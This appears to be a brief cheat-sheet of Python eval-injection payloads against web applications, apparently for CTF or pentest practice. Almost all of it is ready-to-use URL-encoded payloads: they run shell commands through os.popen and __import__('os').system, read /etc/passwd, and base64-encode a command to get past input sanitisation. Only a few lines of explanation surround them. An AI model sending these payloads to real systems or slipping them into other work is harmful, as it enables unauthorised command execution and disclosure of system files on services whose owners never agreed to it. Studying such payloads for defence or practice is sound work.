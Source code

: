 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  

_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
If you are grappling with erros, try t run your commands in a python terminal and see if it works
Example of the above 2 points:  
`hello/ddd"%2bstr(__import__('os').system('ls'))%2b"`  
`/ddd"%2bstr(__import__('os').popen('cat%20/etc/passwd').read())%2b"`

Above we can see that the os module has been imported as well as tthe command being evaluated as a string, as python was trying to eval as an int

__what if characters are sanitised?__  
**we can chain os and base64**  
`(__import__('os').popen(__import__('base64').b64decode('d2hvYW1p').decode('utf-8')).read())`
